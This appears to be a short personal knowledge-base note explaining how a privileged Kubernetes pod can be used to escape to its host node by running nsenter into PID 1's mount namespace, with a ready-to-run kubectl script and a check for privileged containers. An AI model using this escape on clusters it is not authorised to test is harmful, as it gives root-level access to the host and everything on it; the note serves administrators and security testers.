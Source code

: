 If you have a [[K8S Pod]] with a privileged container running in [[Kubernetes]] cluster, you can use it to gain access to the underlying [[K8S Node]] it's running on by using `nsenter`.

{% raw %}
```bash
NAMESPACE=$1
PRIVILEGED_POD_NAME=$2

kubectl exec -n $NAMESPACE -ti $PRIVILEGED_POD_NAME -- bash -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```
{% endraw %}

To see if a container is privileged, look for privileged flag within its security context:
```bash
kubectl get pod $POD_NAME -o yaml | grep "privileged: true"
```


-----

Status: #🌲 